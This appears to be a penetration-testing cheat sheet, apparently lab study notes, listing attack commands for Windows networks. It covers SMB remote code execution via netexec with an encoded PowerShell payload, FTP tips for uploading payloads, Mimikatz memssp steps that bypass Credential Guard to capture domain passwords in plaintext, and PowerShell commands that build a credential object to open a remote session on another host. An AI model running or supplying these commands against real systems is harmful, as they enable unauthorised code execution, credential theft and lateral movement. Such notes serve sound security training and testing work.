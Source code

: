 ### SMB
```PowerShell
# SMB RCE (-X flag)
netexec smb 192.168.50.10 -u Username -p Password -X 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY...AKAApAA=='
```
- See [[Windows V2#Pass-The-Hash]] for SMB pass-the-hash

---
### FTP
```bash
ftp -A 192.168.50.53 # Set FTP session as "active" (when uploading payloads; remember to also enable binary mode)
```
Attempt anonymous login using the above; `anonymous` username and empty password

```bash
ftp> bin # enable binary mode (when uploading payloads)
```

---
### Defeating Windows Credential Guard
Windows Credential Guard will encrypt domain hashes that are in memory in LSASS.exe (local user hashes are still in SAM).  Mimikatz can try to dump these hashes, but they are encrypted. Mimikatz can insert itself as a `memssp` Security Support Provider (SSP) and control the authentication request; thus seeing the credentials in plaintext.

1) Assume code execution as Mimikatz on target computer
2) `.\mimikatz.exe`
3) `privilege::debug`
4) `token::elevate` (?)
5) `misc::memssp`
6) Wait for domain user to log in
7) Check for credentials in `C:\Windows\System32\mimilsa.log

---
### Creating a PSCredential Object
1) Create SecureString
2) Create PSCredential object
3) Use credential
```PowerShell
PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force

PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)

PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
whoami
clientwk220\daveadmin
```

---
---